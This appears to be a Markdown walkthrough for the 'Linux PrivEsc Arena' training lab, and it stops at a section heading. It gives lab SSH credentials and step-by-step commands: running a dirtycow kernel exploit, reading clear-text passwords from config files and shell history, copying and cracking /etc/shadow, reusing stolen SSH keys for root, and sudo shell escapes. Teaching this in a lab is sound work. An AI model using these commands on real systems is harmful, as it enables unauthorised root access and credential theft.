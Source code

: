 <img src = https://i.imgur.com/5pWQzP0.png>

# Linux PrivEsc Arena


## ssh 

```
username: TCM
password: Hacker123
```

## 1. Kernel Exploits 


**Detection**

Linux VM

1. In command prompt type:
```/home/user/tools/linux-exploit-suggester/linux-exploit-suggester.sh ```
2. From the output, notice that the OS is vulnerable to “dirtycow”.

**Exploitation**

Linux VM

1. In command prompt type:
```gcc -pthread /home/user/tools/dirtycow/c0w.c -o c0w ```
2. In command prompt type: ```./c0w ```

*Disclaimer: This part takes 1-2 minutes - Please allow it some time to work.*

3. In command prompt type: ```passwd ```
4. In command prompt type: ```id ```

From here, either copy /tmp/passwd back to /usr/bin/passwd or reset your machine to undo changes made to the passwd binary


# 2. Stored Passwords (Config Files) 

**Exploitation**

Linux VM

1. In command prompt type: ```cat /home/user/myvpn.ovpn ```
2. From the output, make note of the value of the “auth-user-pass” directive.
3. In command prompt type: ```cat /etc/openvpn/auth.txt ```
4. From the output, make note of the clear-text credentials.
5. In command prompt type: ```cat /home/user/.irssi/config | grep -i passw ```
6. From the output, make note of the clear-text credentials.

# 3.  Stored Passwords (History)

**Exploitation**

Linux VM
1. In command prompt type: ```cat ~/.bash_history | grep -i passw ```
2. From the output, make note of the clear-text credentials.



# 4. Weak File Permissions 

Linux VM

1. In command prompt type: ```cat /etc/passwd ```
2. Save the output to a file on your attacker machine
3. In command prompt type: ```cat /etc/shadow ```
4. Save the output to a file on your attacker machine

Attacker VM

1. In command prompt type: ```unshadow <PASSWORD-FILE> <SHADOW-FILE> > unshadowed.txt ```

Now, you have an unshadowed file.  We already know the password, but you can use your favorite hash cracking tool to crack dem hashes.  For example:

```hashcat -m 1800 unshadowed.txt rockyou.txt -O ```

# 5. SSH Keys 

**Detection**

Linux VM

1. In command prompt type:
```find / -name authorized_keys 2> /dev/null ```
2. In a command prompt type:
```find / -name id_rsa 2> /dev/null ```
3. Note the results.

Exploitation

Linux VM

1. Copy the contents of the discovered id_rsa file to a file on your attacker VM.

Attacker VM

1. In command prompt type: ```chmod 400 id_rsa ```
2. In command prompt type: ```ssh -i id_rsa root@<ip> ```

You should now have a root shell :)

# 6. Sudo (Shell Escaping) 

**Detection**

Linux VM

1. In command prompt type: ``sudo -l ```
2. From the output, notice the list of programs that can run via sudo.

**Exploitation**

Linux VM

1. In command prompt type any of the following:
a. ```sudo find /bin -name nano -exec /bin/sh \; ```
b. ```sudo awk 'BEGIN {system("/bin/sh")}' ```
c. ```echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse ```
d. ```sudo vim -c '!sh' ```



# 7. Sudo (Abusing Intended Functionality)




































